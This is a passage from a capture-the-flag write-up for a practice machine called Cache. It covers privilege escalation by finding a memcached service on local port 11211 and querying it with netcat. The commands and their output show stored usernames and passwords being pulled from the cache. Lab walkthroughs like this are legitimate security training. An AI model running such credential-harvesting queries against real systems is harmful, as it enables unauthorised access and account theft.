 
* * *
## 4- Privilege Escalation

### 4.1- Memcache

We can now enumrate the target as Ash using linPEAS for example. We find some ports related to memcache and with regards to the box name, we have to get a closer look to it.

We have **memcache** running locally on port 11211:
~~~
ash@cache:~$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
...              
tcp        0      0 127.0.0.1:11211         127.0.0.1:55946         TIME_WAIT   -                   
...
~~~

Google **memcache** exploit, we can find exploits in EDB and some articles :
- Memcache Exploit : [https://niiconsulting.com/checkmate/2013/05/memcache-exploit/](https://niiconsulting.com/checkmate/2013/05/memcache-exploit/)
- 11211 - Pentesting Memcache : [https://book.hacktricks.xyz/pentesting/11211-memcache](https://book.hacktricks.xyz/pentesting/11211-memcache)

Let's gather information using commands provided byt HackTricks:

~~~
ash@cache:~$ echo "version" | nc -vn localhost 11211
nc: getaddrinfo for host "localhost" port 11211: Name or service not known

ash@cache:~$ echo "version" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VERSION 1.5.6 Ubuntu

ash@cache:~$ echo "get account" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE account 0 9
afhj556uo
END

ash@cache:~$ echo "get user" | nc -vn 127.0.0.1 11211   
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE user 0 5
luffy
END

ash@cache:~$ echo "get passwd" | nc -vn 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
~~~
